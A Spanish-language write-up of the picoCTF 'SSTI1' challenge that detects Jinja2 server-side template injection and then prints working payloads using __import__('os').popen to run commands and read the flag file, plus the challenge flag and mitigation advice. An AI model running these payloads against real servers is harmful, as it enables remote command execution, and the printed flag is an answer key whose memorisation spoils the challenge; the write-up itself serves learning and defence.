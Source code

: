 #### Description

I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.
## Solución (pasos esenciales)

1. **Arrancar la instancia del reto** y abrir la página web donde se permite publicar un mensaje/“announcement”. El reto está diseñado para evaluar entradas que luego son renderizadas por el servidor. [Medium](https://medium.com/%40divyanshurds.kumar/ssti1-ctf-writeup-a2aac025008f)
    
2. **Prueba rápida para detectar SSTI**: enviar una expresión Jinja simple como
    

`{{6 + 6}}`

Si la página devuelve `12`, la entrada está siendo evaluada por el motor de plantillas → confirmación de **Server‑Side Template Injection (SSTI)** (probablemente Jinja2 en Flask). [Medium](https://medium.com/%40divyanshurds.kumar/ssti1-ctf-writeup-a2aac025008f)

3. **Exploración del entorno de templates**: usar introspección de objetos de Python para descubrir objetos globales y builtins accesibles, por ejemplo:
    

`{{ self.__init__.__globals__ }} {{ self.__init__.__globals__.__builtins__ }}`

Esto permite ver que `__builtins__` y `__globals__` están disponibles, lo que habilita importar módulos y ejecutar comandos. [Medium](https://medium.com/%40divyanshurds.kumar/ssti1-ctf-writeup-a2aac025008f)

4. **Ejecución de comandos y lectura de archivos**: aprovechar `__import__` para cargar `os` y `popen` para ejecutar comandos. Ejemplos útiles:
    

`# listar archivos en el directorio de la app {{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}  # leer el fichero 'flag' {{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}`

Con la segunda payload se obtiene el contenido del fichero `flag`. [Medium](https://medium.com/%40divyanshurds.kumar/ssti1-ctf-writeup-a2aac025008f)

5. **Flag obtenida**:
    

`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}`

(obtenida ejecutando la payload de lectura del fichero). [Medium](https://medium.com/%40divyanshurds.kumar/ssti1-ctf-writeup-a2aac025008f)

---

## Notas adicionales / Buenas prácticas

- **Qué es SSTI:** Server‑Side Template Injection ocurre cuando entrada controlada por el usuario se inserta directamente en plantillas que el servidor evalúa; en motores como **Jinja2** esto puede llevar a ejecución de código en el servidor (RCE). Siempre partir de pruebas sencillas como `{{7*7}}` o `{{6+6}}` para detectar evaluación. [portswigger.net+1](https://portswigger.net/web-security/server-side-template-injection?utm_source=chatgpt.com)
    
- **Introspección en Jinja2:** si una plantilla expone objetos como `self`, `__globals__` o `__builtins__`, se puede usar `__import__` para cargar módulos seguros (p. ej. `os`) y luego `popen`/`read()` para ejecutar comandos y recuperar archivos. [Medium](https://medium.com/%40divyanshurds.kumar/ssti1-ctf-writeup-a2aac025008f)
    
- **Riesgos y mitigaciones:** no permitir que datos del usuario se rendericen con `render()` sin escapado; usar `autoescape`, pasar variables como datos (no como plantilla), y filtrar/validar entradas. Reemplazar o restringir funciones peligrosas en entornos productivos. [portswigger.net](https://portswigger.net/web-security/server-side-template-injection?utm_source=chatgpt.com)
    
- **Herramientas útiles:** navegador + DevTools, Burp Suite para modificar solicitudes, payloads de prueba `{{7*7}}`, y, tras confirmación, payloads de inspección/`__import__` para enumerar/leer. [Medium](https://medium.com/%40divyanshurds.kumar/ssti1-ctf-writeup-a2aac025008f)
    

---

## Referencias

- Write‑up detallado del reto **SSTI1** (ejemplo con payloads y flag). [Medium](https://medium.com/%40divyanshurds.kumar/ssti1-ctf-writeup-a2aac025008f)
    
- PortSwigger — explicación y laboratorios sobre **Server‑Side Template Injection** (conceptos y mitigaciones). [portswigger.net](https://portswigger.net/web-security/server-side-template-injection?utm_source=chatgpt.com)
    
- Otros writeups y walkthroughs de SSTI1 (ejemplos prácticos y vídeos). [Cbarkr Blog+1](https://blog.cbarkr.com/ctf/picoCTF/2025/SSTI1?utm_source=chatgpt.com)